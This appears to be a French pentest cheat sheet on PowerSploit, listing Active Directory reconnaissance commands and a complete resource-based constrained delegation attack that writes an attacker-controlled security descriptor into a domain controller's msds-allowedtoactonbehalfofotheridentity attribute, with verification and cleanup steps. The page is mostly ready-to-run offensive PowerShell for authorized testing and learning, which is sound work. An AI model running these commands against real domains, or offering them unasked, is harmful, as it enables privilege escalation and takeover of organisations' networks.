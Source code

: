 ```yaml
---
title: PowerSploit
permalink: /PowerSploit/
---
```


# PowerSploit

## Cheat-Sheet

Liste de commandes utiles en pentest interne.

```powershell
# Contrôles de sécurité rapides
Get-DomainComputer -Unconstrained -Domain client.fr -Server DC.client.fr
Get-DomainUser -Admincount -Domain client.fr -Server DC.client.fr
Get-DomainGroupMember "Admins du domaine" -Domain client.fr -ServerDC.client.fr
```

Exploitation de la "Resource-Based Constrained Delegation". Nécessite de lancer les commandes avec un compte qui a GenericWrite sur l'ordinateur TARGET et d'avoir un compte avec un SPN (ATTACKER) ([Source](https://raw.githubusercontent.com/rewardone/OSCPRepo/479ea7e285d9997fdb243956ceef2c70474f350b/KeepNotes/BookmarkList/passwords%20and%20hashes/kerberos/kerberos%20delegation/resource-based%20constrained%20delegation/combination/maq%20dacl%20and%20allowedtoactonbehalfof/taking%20over%20computer/commands%20used/page.html))

```powershell
# On récupère le SID de l’ordinateur qu’on a jouté
$ComputerSid = Get-DomainComputer COMPUTER -DomainController SERVEURDC.client.fr -Domain client.fr -Properties objectsid | Select -Expand objectsid;
# On crée un « Security Descriptor » avec le compte correspondant
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))";
$SDBytes = New-Object byte[] ($SD.BinaryLength);
$SD.GetBinaryForm($SDBytes, 0);
# On modifie le champ 'msds-allowedtoactonbehalfofotheridentity'
Get-DomainComputer SERVEURDC -DomainController SERVEURDC.client.fr -Domain client.fr | Set-DomainObject -DomainController SERVEURDC.client.fr -Domain client.fr -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes};

# Les commande suivantes permettent de vérifier que la modif a bien été effectuée
$RawBytes = Get-DomainComputer SERVEURDC -DomainController SERVEURDC.client.fr -Domain client.fr -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity;
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
$Descriptor.DiscretionaryAcl

# Cleanup
Get-DomainComputer SERVEURDC -DomainController SERVEURDC.client.fr -Domain client.fr | Set-DomainObject -Clear 'msds-allowedtoactonbehalfofotheridentity'  -DomainController SERVEURDC.client.fr -Domain client.fr
```

## Ressources
-   [PowerSploit sur Github](https://github.com/PowerShellMafia/PowerSploit/)
